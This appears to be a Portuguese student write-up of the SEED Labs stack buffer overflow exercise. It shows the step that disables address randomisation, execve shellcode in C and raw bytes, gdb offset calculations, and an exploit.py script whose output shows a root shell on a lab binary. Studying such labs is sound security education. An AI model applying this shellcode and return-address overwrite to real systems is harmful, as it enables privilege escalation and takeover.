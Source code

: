 # Buffer overflow
## 2 Set-up
- Desativar as seguranças mais concretamente o gerenciamento random do SO para ser mais fácil sabermos o starting point do endereçamento da memória
```shell
sudo sysctl -w kernel.randomize_va_space=0
```
- Trabalhar no bin/sh
```shell
sudo ln -sf /bin/zsh /bin/sh
```
## 3 Shell code
- Basic C shell code
```c
#include <stdio.h>
int main() {
	char*name[2];
	name[0] = "/bin/sh";
	name[1] = NULL;
	execve(name[0], name, NULL);
}
```
### 3.4 call_sheelcode.c
Código:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
#if __x86_64__
	"\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
	"\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
	"\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
	"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
	"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
	"\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif;

int main(int argc, char**argv){
	char code[500];
	strcpy(code, shellcode); // Copy the shellcode to the stack
	int (*func)() = (int(*)())code;
	func();                 // Invoke the shellcode from the stack
	return 1;
}
```
Output: Abriu uma shell nas duas opções.

**Nossas observações:**
Ora bem, após corrermos ambos os programas reparamos que abriu uma shell cada um `$   ` cada um com acesso a `/bin/sh`

## Task 3

Depois de compilarmos tudo da Task 2, fizmos `gdb stack-L*-dbg`

Com isto criamos um breakpoint no bof, corremos o programa até lá e vimos os endereços nas variáveis *ebp* e *buffer*

**Resultados da shell**
- Para stack-L1-dbg
```shell
gdb-peda$ p $ebp
$1 = (void *) 0xffffcaf8
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffca8c
gdb-peda$ p/d 0xffffcaf8 - 0xffffca8c
$3 = 108
gdb-peda$ 
```


**exploit.py**

```python
#!/usr/bin/python3   
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 400               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffca8c+300         # Change this number
offset = 112                # Change this number

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Output

```shell
seed@VM:~/.../code$ ./stack-L1
Input size: 517
# whoami                                                                                                                                                  root
# id
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
#           
```

**Nossas Observações** Concluimos com êxito o buffer-overflow utilizando `stack-L1`, podemos reparar que temos os privilégios do super usuário, mais concretamente *root*. 

Explicação dos dados:
- *ret*, usamos o valor 0xffffca8c que é o address do &buffer, somamos 300 por tentativa e erro;
- *offset*, usamos a diferença calculada com $ebp - &buffer e somamos os 4 bits(por ser 32 bits) dando assim 112;
- *start*, escolhemos 400, pois tinhamos de escolher um numero de 100 a 400, e como o badfile tinha tamanho 512 então utilizamos 400;
- a *shellcode* extraímos de github do seedlabs para 32bits;


Para os outros stack-L's utilizamos a mesma lógica, atualizando apenas todos estes valores (excepto a shell code) mas respeitando sempre as mesma regras.
